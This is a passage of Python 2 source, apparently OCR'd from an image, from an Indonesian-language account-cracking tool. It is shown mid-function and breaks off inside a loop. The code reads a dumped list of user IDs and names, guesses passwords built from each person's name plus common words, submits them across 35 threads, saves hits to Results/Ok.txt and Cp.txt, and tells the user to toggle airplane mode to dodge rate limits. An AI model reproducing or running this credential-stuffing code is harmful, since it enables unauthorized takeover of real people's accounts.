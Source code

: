                 else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(mobile, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,B))
    elif ___metode___ in ['4','04']:
        print("\n%s[%s1%s]%s Gunakan Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n%s[%s*%s]%s Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Abdullwh  Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Abdullwh  Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(crack, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,P))
    elif ___metode___ in ['5','05']:
        print("\n%s[%s1%s]%s Gunakan Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n[*] Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Abdullwh  Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Abdullwh  OK Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')